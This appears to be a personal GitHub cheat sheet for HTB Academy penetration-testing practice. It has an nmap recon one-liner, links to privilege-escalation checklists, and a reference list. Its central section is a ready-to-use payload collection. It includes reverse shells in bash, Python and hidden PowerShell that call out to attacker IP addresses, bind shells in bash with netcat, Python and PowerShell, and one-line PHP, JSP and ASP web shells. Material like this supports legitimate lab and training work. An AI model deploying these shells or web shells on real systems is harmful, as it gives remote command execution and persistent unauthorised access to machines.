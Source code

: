 # HTB ACADEMY Learning Personal Repo

## Recon

```bash
TARGET=;mkdir nmap;sudo nmap -vvv -A -sV -sC --min-rate=5000 $TARGET -p`sudo nmap -T5 -Pn --min-rate=5000 $TARGET -p- | grep 'open' | cut -d '/' -f1 | tr "\n" "," | sed s/,$//g` -oA nmap/$TARGET && xsltproc nmap/$TARGET.xml -o nmap/$TARGET.html
``` 

## PrivEsc


### Linux_Checklists

> [Checklist 1](https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist)  
> [Checklist 2](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)  

### Windows_Checklists

> [Checklist 1](https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist)  
> [Checklist 2](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)  

### List Of Commands for PrivEsc
> [GTFOBins (Linux)](https://gtfobins.github.io/)  
> [LOLBAS (Windows)](https://gtfobins.github.io/)  

## Backdoor shells


### Reverse Shells

> [Villian (For Windows & Linux)](https://github.com/t3l3machus/Villain)

> Bash Shell
```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

> Python Shell

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.3",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
> Windows Powershell 

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### Bind Shells

> Bash Shell

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```


> Python Shell

```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

> Windows Powershell

```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();

```

### Upgrading TTY

+ We will first run below command:
```python
python -c 'import pty;pty.spawn("/bin/bash")'
```
+ After we run this command, we will hit ctrl+z to background our shell and get back on our local terminal, and input the following stty command:
```bash
stty raw -echo;fg
#press 'Enter to continue'
```

+ Fix shell size:

```bash
export TERM=$TERM
stty row 38 columns 169 
```

### Web Shell


> Php Web Shell

```php
<?php system($_REQUEST['cmd']); ?>
```

> Jsp Web Shell

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

> Asp Web Shell

```asp
<% eval request("cmd") %>
```

## References URLs

> [GTFObins](https://gtfobins.github.io)
>
> [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings)  
>
> [HighOn,Coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/)  
>
> [HackTricks](https://book.hacktricks.xyz/welcome/readme)  
>
> [Ippsec (YouTube)](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA)  
>
> [Ippsec (Topic Searcher)](https://ippsec.rocks/?#)  
>
> [VbScrub (YouTube)](https://www.youtube.com/channel/UCpoyhjwNIWZmsiKNKpsMAQQ)  
>
> [STÖK (YouTube)](https://www.youtube.com/channel/UCQN2DsjnYH60SFBIA6IkNwg)  
>
> [LiveOverflow (YouTube)](https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w)  
>
> [0xdf hacks stuff(Blog)](https://0xdf.gitlab.io/)  
>
> [Under The Wire (Powershell Tutorial Website)](https://underthewire.tech/)
>
> [Over The Wire (Bash Tutorial Website)](https://overthewire.org/wargames/)
>
> [Magic Unicorn Downgrade Tool (For Windows)](https://github.com/trustedsec/unicorn)
